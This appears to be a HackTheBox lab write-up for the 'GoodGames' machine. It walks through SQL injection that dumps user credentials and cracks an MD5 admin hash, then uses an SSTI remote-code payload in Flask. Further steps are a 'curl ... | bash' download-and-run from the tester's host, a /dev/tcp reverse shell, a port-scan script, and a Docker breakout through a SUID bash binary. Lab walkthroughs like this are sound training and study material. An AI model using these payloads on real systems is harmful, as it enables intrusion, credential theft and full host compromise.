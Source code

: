 HackTheBox
## SQL Injection
[[Error-based SQL-Injection]]
Payload: *' or 1=1-- -* 
*;* is not necessary because of pyhton syntax
![[Pasted image 20240323105506.png]]
![[Pasted image 20240323121529.png]]

As admin, we found a administration console that we will review further as we don't have credentials

http://internal-administration.goodgames.htb/

By using *orden by*, we can determine the numer of columns
payload: *' order by 10-- -*
We can analyze the size on Content-Lenght
![[Pasted image 20240323121952.png]]
By using 4, it changes, then we can infer that the current table has 4 columns or less
![[Pasted image 20240323122104.png]]

Payload using union: *' union select 1,2,3,"test"-- -*
We verify that this information affects the site
![[Pasted image 20240323122204.png]]
### Testing SSTI by SQL
Tested because we found the usage of template Flask
*' `union select 1,2,3,"{{7*7}}"-- -`* but it doesn't work, we expected 49.

### Dumping
To get the name of the current database:
*' union select 1,2,3,database()-- -* 
![[Pasted image 20240323122543.png]]
#### Enumerating DBs
*' union select 1,2,3,schema_name from information_schema.schemata-- -* 

![[Pasted image 20240323122815.png]]
>information_schema, name

#### Enumerating table
Enumerating first table of information_schema
*' union select 1,2,3,table_name from information_schema.tables limit 0,1-- -* 

Enumerating all tables found
`for i in $(seq 1 100); do echo "[+] For number $i: $(curl -s -X POST http://goodgames.htb/login --data "email=test%40test' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=test" | grep "Welcome" | sed "s/^ *//" | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done`

![[Pasted image 20240323140137.png]]

#### Enumerating only DB main's tables
`for i in $(seq 0 100); do echo "[+] For number $i: $(curl -s -X POST http://goodgames.htb/login --data "email=test%40test' union select 1,2,3,table_name from information_schema.tables where table_schema=\"main\" limit $i,1-- -&password=test" | grep "Welcome" | sed "s/^ *//" | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done`

Here, `\` is used as an escape character in the context of a shell command. Its purpose is to ensure that the double quotes are interpreted as literal characters within the string being sent to the server, rather than being interpreted by the shell.
![[Pasted image 20240323140753.png]]

#### Enumerating columns of table user

`for i in $(seq 0 100); do echo "[+] For number $i: $(curl -s -X POST http://goodgames.htb/login --data "email=test%40test' union select 1,2,3,column_name from information_schema.columns where table_schema=\"main\" and table_name=\"user\" limit $i,1-- -&password=test" | grep "Welcome" | sed "s/^ *//" | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done`

![[Pasted image 20240323141103.png]]

#### Dumping columns information: name, id, passwd
`for i in $(seq 0 100); do echo "[+] For number $i: $(curl -s -X POST http://goodgames.htb/login --data "email=test%40test' union select 1,2,3,group_concat(name,0x3a,email,0x3a,password) from user limit $i,1-- -&password=test" | grep "Welcome" | sed "s/^ *//" | awk 'NF{print $NF}' | awk '{print $1}' FS="<")"; done`
>[+] For number 0: admin:admin@goodgames.htb:2b22337f218b2d82dfc3b6f77e7cb8ec,test:test@test.com:098f6bcd4621d373cade4e832627b4f6

Using **hash-identifier**, it detects that is mds
`hash-identifier 2b22337f218b2d82dfc3b6f77e7cb8ec`

## Cracking credentials
`john --wordlist=/usr/share/wordlists/rockyou.txt hash --format=Raw-MD5`
>superadministrator (?)

We can find this by using a **rainbowtable**
https://crackstation.net/

To get access to this, we need to add it to /etc/hosts
http://internal-administration.goodgames.htb/

![[Pasted image 20240323170836.png]]
Trying credentials found user: *admin* pass: *superadministrator*

## Server Side Template Injection
[[Server Site Template Injection (SSTI)]]

Again, as it's using flask (template), we found a SSTI vulnerability in fullname field
![[Pasted image 20240323171727.png]]

Injecting a RCI payload:
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}` executes *id*
![[Pasted image 20240323172433.png]]

Injecting *hostname -I*, we found we are in a container:
![[Pasted image 20240323172544.png]]

### Creating a reverse shell using bash

index.html *to use it by curl in a python dumb server*

#!/bin/bash
bash -i >& /dev/tcp/10.10.14.70/4443 0>&1

payload:
`{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http://10.10.14.70 | bash').read() }}`

![[Pasted image 20240323173448.png]]

Interactive shell

## Docker Breakout
[[Docker Breakout]]

![[Pasted image 20240323192630.png]]

`1000`: This part represents the group ID (GID) of the file. Since a group name is not displayed, it's likely that there's no corresponding entry in the container's `/etc/group` file for this GID. In many Linux distributions, a GID of 1000 is commonly the first user created on the system (often not `root`), suggesting this file might have been created or brought into the container from the host system or another context where the GID 1000 has a specific group name.

As user *augustus* doesn't exist in this container and group 1000 is not found in the container too: `cat /etc/group` so we can infer that this path is been brought from the host machine by using *mount*. 
##### Important: 
Permission on files are showing users ids instead of names!

`mount | grep home`

![[Pasted image 20240323193536.png]]

Reviewing open ports in the container:

 `#!/bin/bash`

`function ctrl_c(){`
	`echo -e "\n\n[!] Quitting..\n"`
	 `tput cnorm; exit 1`
`}`

 `#Ctrl+C`
`trap ctrl_c INT`
 
`tput civis`
`for port in $(seq 1 65565); do`
	`timeout 1 bash -c "echo '' > /dev/tcp/172.19.0.1/$port" 2>/dev/null && echo "[+] Port $port --open" &`
`done; wait`
`tput cnorm`

#### Transfer by base64
To transfer this script, we can do it by encoding in base64

`base64 -w 0 ports.sh | xclip -sel clip` 
![[Pasted image 20240323201108.png]]

Before we infered that the victine is 172.19.0.1 because is the only IP found as it's the gateway
![[Pasted image 20240323201152.png]]

Trying by SSH since port 22 is open using user *augustus* and the password we already found before *superadministrator*

We are now into the machine host
![[Pasted image 20240323201343.png]]
![[Pasted image 20240323201408.png]]

`cd /`
`find \-perm -4000 2>/dev/null`
![[Pasted image 20240323201932.png]]

Nothing interesting
### Privilege Escalation
We can take advantage of the mount folder by coping */bin/bash* binary to */home/augustus* and from the docker container, granting SUID permissions

`augustus@GoodGames:~$ cp /bin/bash/ .`

From container
`root@3a453ab39d3d:/home/augustus# chown root:root bash`
>-rwxr-xr-x 1 root root 1234376 Mar 24 01:43 bash

`root@3a453ab39d3d:/home/augustus# chmod 4755 bash`
`root@3a453ab39d3d:/home/augustus# ssh augustus@172.19.0.1`

From host machine:
`augustus@GoodGames:~$ ./bash -p`
`bash-5.1#` 



